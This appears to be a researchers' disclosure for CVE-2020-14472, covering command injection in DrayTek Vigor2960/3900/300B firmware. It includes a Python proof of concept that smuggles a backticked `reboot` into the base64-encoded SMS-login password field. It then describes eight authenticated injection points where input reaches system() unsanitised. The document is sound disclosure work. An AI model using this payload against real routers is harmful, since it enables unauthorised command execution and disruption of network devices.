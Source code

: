 # CVE-2020-14472 CMDi

- Products: DrayTek Vigor2960/3900/300B
- Firmware: < version 1.5.1.1

This CVE contains 1 CMDi without authorization and 8 CMDi with authorization.

****

## An unauthorized **Command Injection** @ mainfunction.cgi

We found an unauthorized CMDi @ mainfunction.cgi with the precondition that the router can be authorized by SMS. The vulnerability will be triggered by `frompassword` value containig injected commands such as "123456\`reboot\`".

If the router supports login by SMS and the user's phone number or the content of `/var/sms_phone_auth` is known by the attacker, then the attacker will be able to inject arbitary command by an evil payload such as the injection of `reboot` as the payload below.

```python=
from sys import argv
from base64 import b64encode
import requests

data = {
    "URL": "192.168.1.1",
    "HOST": "http://192.168.1.1",
    "action": "authuser",
    "formusername": b64encode(b"test").decode(),
    "formpassword": b64encode(b"12345678`reboot`").decode(),
    "PHONENUMBER": argv[1] # the known phone number
}
header = {
    "Content-Type": "application/raw"
}
url = {
    "root": "http://192.168.1.1",
    "cgi": {
        "root": "/cgi-bin",
        "uri": {
            "mf": "/mainfunction.cgi",
        }
    }
}

def build_url(p1, p2=None):
    if p2:
        return url["root"] + url[p1]["root"] + url[p1]["uri"][p2]
    else:
        return url["root"] + url[p1]

session = requests.session()
session.post(build_url("cgi", "mf"), data=data, headers=header)
```

****

## Eight authorized CMDi

There are some command injection vulnerabilities in the mainfunction.cgi file. The details are as follows:

**1. in downlaod_ovpn function**  

![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618181430.png)  
The parameters from http_input are written directly to the buf of s without filtering, followed by system, which can causecommand injection

**2. in doOpenVpn function**  

![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618181622.png)  
The value of "option" is from "http_input" and later concatenated and used by "system" without any special characters sanitizing, causing command injection

**3. int dumpSyslog_func**  

![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618182201.png)  
The value of "option" is from "http_input", and single quote character allowed. So, since it is user-controllable, when user input closes the single quote, a command injection is done.

**4. in get_subconfig_func**  

![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618182534.png)  
"rtick" is from "http_input", and further passed to "sub_F2D8". In "sub_F2D8", "rtick" is concatenated to "/tmp/ipv6_neigh_", then passed to "system", causing command injection.  
![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618182631.png)

**5. in set_ap_map_config_func**  
The value of "option" is from "http_input",and will be spliced with "/sbin/ipsec_new_cer" , may cause command execution  
![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618183008.png)

**6. in delete_wlan_profile_func**  

The value of "profile_number " is from "http_input" and will be spliced with "uci delete apm_wlan_profile.profile"， may cause command execution  
![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618183605.png)

**7. in ruequest_certificate_func**  

The value of "option" will be spliced with "/sbin/ipsec_new_cer" , may cause command execution  
![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618183646.png)

**8. in doGRETunnel_func**  

The table value will be spliced with "/etc/init.d/gretunnel disconnect_from_web '%s' 1>/dev/null 2>&1" ， may cause command execution  
![](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20200618183338.png)

****

## Founder
- C0ss4ck @ NJUPT (email: c0ss4ck9989@gmail.com)
- Swings @ Chaitin (email: weiming.shi@chaitin.com)
- MozhuCY @ NJUPT (email: mozhucy@gmail.com)